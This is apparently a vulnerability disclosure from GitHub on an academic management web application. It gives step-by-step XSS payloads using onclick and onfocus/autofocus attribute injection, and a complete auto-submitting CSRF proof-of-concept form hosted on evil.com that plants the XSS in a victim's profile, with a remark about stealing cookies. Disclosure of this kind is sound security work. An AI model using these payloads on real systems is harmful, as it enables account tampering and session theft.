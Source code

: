 # XSS
1、	Log in later to the security settings page.

 ![maze](https://github.com/Kevil-hui/bug-report/blob/master/pic/1.jpg)  
 
2、	Click save and intercept the package. It is found that the real name is URL encoded and other parameters are transmitted in clear text.

  ![maze](https://github.com/Kevil-hui/bug-report/blob/master/pic/2.jpg)  
  
3、	XSS PAYLOAD1:1" onclick=alert(1)//   
    XSS PAYLOAD2：" onfocus=alert(1) autofocus ;'
    
You can set the submitted parameter of any of the five table boxes to 1 "onclick = alert (1) / /, and then replay the data package.
Because the onclick event needs to be triggered by clicking the table box, we can use the onfocus event and its autofocus attribute to automatically trigger the onfocus event, and modify the payload to: "onfocus = alert (1) autofocus;"

  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/3.jpg)  
 
4、	XSS triggered successfully.

  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/4.jpg)  
  
  
# CSRF
1、CSRF POC
Intercepts the request packet corresponding to "setting the security problem", because it is plaintext transmission, CSRF POC can be easily constructed, as follows

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://target.com/jsxsd/grsz/grsz_xggrxx.do" method="POST" id="csrf">
      <input type="hidden" name="realName" value="aa" />
      <input type="hidden" name="pwdQuestion1" value="11" />
      <input type="hidden" name="pwdAnswer1" value="3a3a" />
      <input type="hidden" name="pwdQuestion2" value="1" />
      <input type="hidden" name="pwdAnswer2" value="1&quot; onfocus=alert(/hacked!/) autofocus ;" />
      <input type="hidden" name="pageSize" value="101" />
      <input type="hidden" name="edit" value="11" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
<script>
    document.getElementById("csrf").submit();
</script>
</html>
```
2、Save the page to my server (simulating the attacker's server) at http://evil.com/jwcsrf.html

3、After confirming the login status, I will visit http://evil.com/target.com/jsxsd/jwcsrf.html

4、After accessing CSRF, xss will be triggered automatically, because changing the password needs to verify the original password. You can inject XSS page into other users' background through CSRF, and get user cookies by xss

  ![maze]( https://github.com/Kevil-hui/bug-report/blob/master/pic/5.jpg)  
